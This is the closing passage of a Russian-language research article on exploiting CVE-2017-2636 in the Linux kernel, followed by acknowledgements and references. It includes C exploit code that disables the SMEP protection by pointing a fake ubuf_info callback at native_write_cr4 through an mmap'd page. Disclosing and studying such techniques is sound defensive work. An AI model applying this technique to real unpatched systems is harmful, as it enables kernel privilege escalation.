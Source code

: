 {% highlight c %}
	if (shinfo->tx_flags & SKBTX_DEV_ZEROCOPY) {
		struct ubuf_info *uarg;

		uarg = shinfo->destructor_arg;
		if (uarg->callback)
			uarg->callback(uarg, true);
	}
{% endhighlight %}

Мы видим, что функция `callback` принимает адрес `uarg` в качестве первого аргумента. Мы контролируем данный адрес при эксплуатации `sk_buff`. Поэтому я решил записать адрес функции `native_write_cr4()` в указатель `ubuf_info.callback`, а структуру `ubuf_info` с помощью `mmap()` расположить по адресу, соответствующему корректному значению CR4 с выключенным SMEP.

В этом случае на данном процессорном ядре SMEP будет выключен без использования ROP. Однако, для эксплуатации придется достичь состояние гонки дважды: первый раз для отключения SMEP, второй раз для выполнения shell-кода. Но для данного эксплойта это не является проблемой, поскольку он быстрый и надежный.

Итак, подготовим полезную нагрузку для `add_key` по-новому:

{% highlight c %}
	#define CR4_VAL	0x0406e0lu

	void *target_addr = (void *)(CR4_VAL & 0xfffff000lu);

	area = mmap(target_addr, 0x1000, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (area != target_addr) {
		perror("[-] mmap\n");
		return EXIT_FAILURE;
	}

	uinfo_p = (struct ubuf_info *)CR4_VAL;
	uinfo_p->callback = NATIVE_WRITE_CR4;

	info->destructor_arg = (uint64_t)uinfo_p;
	info->tx_flags = SKBTX_DEV_ZEROCOPY;
{% endhighlight %}

Этот способ обхода SMEP выглядит остроумно, однако накладывает дополнительное требование - для его работы требуется взведенный 18 бит регистра CR4 (OSXSAVE). Без этого бита `target_addr` становится равным 0, а `mmap()` на нулевую страницу запрещен.

## Благодарности

Исследование `CVE-2017-2636` и написание этой статьи было для меня большим удовольствием. Хочу поблагодарить [Positive Technologies][29] за возможность провести эту работу. Буду рад обратной связи. Контактная информация указана ниже.


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[21.1]: https://ru.wikipedia.org/wiki/Heap_spraying
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/

